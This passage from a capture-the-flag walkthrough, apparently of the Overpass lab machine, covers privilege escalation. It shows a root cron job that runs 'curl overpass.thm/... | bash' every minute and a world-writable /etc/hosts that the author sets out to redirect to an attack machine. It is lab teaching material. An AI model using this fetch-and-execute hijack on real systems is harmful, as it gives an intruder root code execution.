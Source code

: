 ### Yup! And here's a password for us, as the note says: "Write down my password somewhere on a sticky note so that I don't forget it.", so the password for this `System` account is actually `james` password.
```bash
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.
```

### No sudo privileges =\) What if there's something in the crontab... ?
```bash
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

### Great, there's a task that runs every minute as `root` and downloads the `buildscript.sh` bash script from `overpass.thm` and runs it with bash, jackpot! Let's find out if `/etc/hosts` is writable...
```bash
james@overpass-prod:/$ ls -lh /etc/hosts
-rw-rw-rw- 1 root root 252 Jan 26 23:37 /etc/hosts
```

### Indeed, `/etc/hosts` is writable, so let's start abusing it by pointing this `overpass.thm` domain to our attack machine's IP address:
